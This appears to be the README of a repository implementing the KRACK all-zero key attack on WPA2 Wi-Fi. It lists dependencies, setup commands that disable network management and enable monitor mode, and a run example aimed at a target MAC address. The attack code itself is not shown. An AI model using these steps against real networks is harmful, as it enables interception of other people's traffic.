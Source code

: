 <b>Note! In order for the script to work properly:    
- The code execution is under python 2   
- Execution permission must be given to the 'hostapd' file located in the 'hostapd' folder   
  (for example navigate to the hostapd folder and run: sudo chmod 777 hostapd)   
- The code must be run from the krackattack-all-zero-tk-key root folder   
- In case of long interface name please run 'sudo airmon-ng start INTERFACE_NAME'</b>  


No need to install an external MitM library. The attack files in this repository include the MitM-ChannelBased implementation files.


First, Clone this repository for the attack files.


Dependencies:   
- sudo apt update
- sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome

Before execution run the following commands:
- sudo airmon-ng check kill
- service network-manager stop
- sudo rfkill unblock wifi

krack_all_zero_tk.py Run example:
- sudo python ./krackattack/krack_all_zero_tk.py wlx6c5ab0b3f988 wlan0mon ens33 "check" -t F0:27:65:DA:AD:E8    
(See below for an explanation of the command)     
    
The code may require the following packages:
- macchanger
- connect-proxy (sudo apt install connect-proxy)
- socket (sudo apt install socket)

 The following link contains a video that demonstrate this attack: [demostration video](https://www.youtube.com/watch?v=Jq6rPCSuv4o)
 
